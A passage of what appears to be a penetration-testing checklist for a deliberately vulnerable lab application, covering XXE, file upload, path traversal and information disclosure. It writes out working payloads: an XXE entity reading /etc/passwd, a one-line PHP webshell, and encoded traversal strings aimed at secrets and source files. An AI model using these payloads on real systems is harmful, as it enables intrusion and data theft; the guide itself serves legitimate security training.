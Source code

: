 ### 3.4. XML External Entity (XXE) Injection
1. Find a feature that accepts XML uploads or inputs
2. Create an XML file with the following:
   ```xml
   <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <foo>&xxe;</foo>
   ```
3. Upload or submit the file
4. Check if file contents are displayed

### 3.5. Unrestricted File Upload
1. Find a file upload feature
2. Create a simple PHP webshell file (e.g., `shell.php`) with:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
3. Upload the file
4. Try to access the uploaded file with a parameter like `?cmd=ls`

### 3.6. Path Traversal
1. Find features that access files (such as the `/api/file` endpoint)
2. Try these specific path traversal payloads:
   - `../config.secret` (access JWT secret)
   - `../flag.txt` (access root flag)
   - `../etc/darkflag` (access flag in etc dir)
   - `../etc/passwd` (access mock passwd file)
   - `../docs/sensitive.txt` (access sensitive docs)
   - `../app.js` (access application source code)
3. For advanced path traversal that bypasses basic protections, try:
   - `..%2f..%2fflag.txt` (URL encoded)
   - `.././../etc/darkflag` (alternative representation)
   - `....//etc/passwd` (nested traversal)
   - Try different encodings of the ../ sequence
4. Check for successful access to files outside the intended directory

Note: All these test files are created locally when the application starts.

## 4. Information Disclosure Vulnerabilities

### 4.1. Path Disclosure
1. Trigger application errors
2. Look for file paths in stack traces
3. Document any disclosed server paths

### 4.2. Source Code Exposure
1. Try accessing `/docs/../app.js` or similar path traversal
2. Check if application source code is accessible
